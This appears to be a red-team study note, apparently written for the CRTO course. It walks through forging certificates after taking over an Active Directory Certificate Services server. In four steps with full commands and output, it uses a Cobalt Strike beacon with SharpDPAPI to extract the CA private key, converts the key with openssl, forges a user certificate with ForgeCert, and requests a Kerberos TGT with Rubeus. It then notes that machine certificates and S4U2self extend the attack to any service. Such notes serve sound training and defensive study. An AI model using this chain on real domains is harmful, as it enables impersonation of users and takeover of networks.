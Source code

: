 
[[Active Directory Certificate Services]] are usually installed/managed on separate servers than DC's. Lower priv accounts usually have access to these more often than to the DC's.

Gaining local admin access to a CA allows an attacker to extract the CA private key, which can be used to sign a forged certificate (think of this like the krbtgt hash being able to sign a forged TGT).

The default validity period for a CA private key is 5 years.

#### 🖊️ exploit via Cobalt Strike

1) If you have an active beacon on a CA server, you can extract private keys using [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)

```
beacon> run hostname
dc-2

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe certificates /machine
```

![[sub-ca-key.png]]
2) Save the private key and certificate to a `.pem` file and convert it to a `.pfx` with openssl.

```
ubuntu@DESKTOP-3BSK7NO ~> openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out sub-ca.pfx
Enter Export Password: pass123
Verifying - Enter Export Password: pass123
```

3) Then, build the forged certificate with [ForgeCert](https://github.com/GhostPack/ForgeCert).

```
PS C:\Users\Attacker> C:\Tools\ForgeCert\ForgeCert\bin\Release\ForgeCert.exe --CaCertPath .\Desktop\sub-ca.pfx --CaCertPassword pass123 --Subject "CN=User" --SubjectAltName "nlamb@cyberbotic.io" --NewCertPath .\Desktop\fake.pfx --NewCertPassword pass123

CA Certificate Information:
  Subject:        CN=sub-ca, DC=dev, DC=cyberbotic, DC=io
  Issuer:         CN=ca, DC=cyberbotic, DC=io
  Start Date:     8/15/2022 4:06:13 PM
  End Date:       8/15/2024 4:16:13 PM
  Thumbprint:     697B1C2CD65B2ADC80C3D0CE83A6FB889B0CA08E
  Serial:         13000000046EF818036CF8C99F000000000004

Forged Certificate Information:
  Subject:        CN=User
  SubjectAltName: nlamb@cyberbotic.io
  Issuer:         CN=sub-ca, DC=dev, DC=cyberbotic, DC=io
  Start Date:     10/5/2022 1:24:23 PM
  End Date:       10/5/2023 1:24:23 PM
  Thumbprint:     0CF404F5D1534854BA5EDEC5953ED7B7BE96C3A8
  Serial:         00978D5E506AE605589E43F21D17E56671

Done. Saved forged certificate to .\Desktop\fake.pfx with the password 'pass123'
```

4) Even though you can specify any SubjectAltName, the user does need to be present in AD.  We can now use Rubeus to request a legitimate TGT with this forged certificate.

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /domain:dev.cyberbotic.io /enctype:aes256 /certificate:MIACAQ[...snip...]IEAAAA /password:pass123 /nowrap`

 ⚠ We're not limited to forging user certificates; we can do the same for machines.  Combine this with the S4U2self trick to gain access to any machine or service in the domain.




### Properties
---
📆 created   {{25-02-2024}} 15:58
🏷️ tags: #redteam #crto 

---

